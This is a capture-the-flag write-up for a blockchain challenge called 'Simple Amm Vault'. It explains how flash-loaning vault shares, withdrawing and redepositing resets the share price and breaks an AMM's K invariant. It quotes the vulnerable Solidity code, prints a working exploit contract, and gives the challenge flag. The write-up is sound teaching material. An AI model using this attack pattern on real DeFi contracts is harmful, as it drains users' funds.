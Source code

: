 ```yaml
---
title: Blockchain - Simple Amm Vault
description: 2024 | Grey Cat The Flag | Blockchain
tags:
    - smart contract
    - vault reset attack
    - flashloan
---
```


## Description

ERC-4626 was too complex, so I made an AMM to swap between shares and assets.

> nc challs.nusgreyhats.org 30301

> [Challenge Files](https://github.com/MiloTruck/evm-ctf-challenges/tree/8763f5fd12c3179227ec9cac0b21b959c6144dca/src/simple-amm-vault)

## Solution

- Initially, there are 1000 GREY deposited in the vault, 1000 GREY sent to the vault as rewards, and 2000 GREY in the pool. The player starts with 1000 GREY and need to have at least 3000 GREY to solve the challenge
- Users can receive distributed rewards by unstaking GREY. Since the pool offers zero-fee flash loans on GREY and SV tokens, we can borrow SV and withdraw all the GREY from the vault. The `totalAssets` and `totalSupply` will then return to zero, causing the share price to drop, then we can deposit 1000 GREY and repay the flash loan

    ```js
    function deposit(uint256 assets) external returns (uint256 shares) {
        shares = toSharesDown(assets);
        require(shares != 0, "zero shares");

        totalAssets += assets;
        _mint(msg.sender, shares);
        
        GREY.transferFrom(msg.sender, address(this), assets);
    }

    function toSharesDown(uint256 assets) internal view returns (uint256) {
        if (totalAssets == 0 || totalSupply == 0) {
            return assets;
        }
        return assets.mulDivDown(totalSupply, totalAssets);
    }
    ```

- After the flash loan, the share price dropped from 2e18 to 1e18

    ```js
    function sharePrice() external view returns (uint256) {
        return totalSupply == 0 ? 1e18 : totalAssets.divWadDown(totalSupply);
    }
    ```

- The pool calculates K based on the share price and the amount of tokens reserved. The initial K is 2000e18 (1000e18 + 2000e18 * 1e18 / 2e18)

    ```js
    function computeK(uint256 amountX, uint256 amountY) internal view returns (uint256) {
        uint256 price = VAULT.sharePrice();
        return amountX + amountY.divWadDown(price);
    }
    ```

- Thus, 1000 GREY can be taken out from the pool without SV after the share price drops (1000e18 + 1000e18 * 1e18 / 1e18 >= 2000e18). Enough GREY is now obtained

    ```js
    modifier invariant {
        _;
        require(computeK(reserveX, reserveY) >= k, "K");
    }

    function swap(bool swapXForY, uint256 amountIn, uint256 amountOut) external invariant {
        IERC20 tokenIn;
        IERC20 tokenOut;

        if (swapXForY) {
            reserveX += amountIn;
            reserveY -= amountOut;

            (tokenIn, tokenOut) = (tokenX, tokenY);
        } else {
            reserveX -= amountOut;
            reserveY += amountIn;

            (tokenIn, tokenOut) = (tokenY, tokenX);
        }

        tokenIn.transferFrom(msg.sender, address(this), amountIn);
        tokenOut.transfer(msg.sender, amountOut);
    }
    ```

### Exploitation

```js
contract Exploiter {
    SimpleVault public vault;
    SimpleAMM public amm;
    GREY public grey;

    constructor(Setup setup) {
        vault = setup.vault();
        amm = setup.amm();
        grey = setup.grey();
        grey.approve(address(vault), type(uint256).max);

        setup.claim();
    }

    function exploit() public {
        amm.flashLoan(true, 1000 ether, "");
        amm.swap(true, 0, 1000 ether);
        grey.transfer(msg.sender, grey.balanceOf(address(this)));
    }

    function onFlashLoan(uint256, bytes calldata) external {
        require(msg.sender == address(amm));
        vault.withdraw(1000 ether);
        vault.deposit(1000 ether);
        vault.approve(address(amm), 1000 ether);
    }
}
```

### Flag

> grey{vault_reset_attack_a3e7a42b511cf0a8}
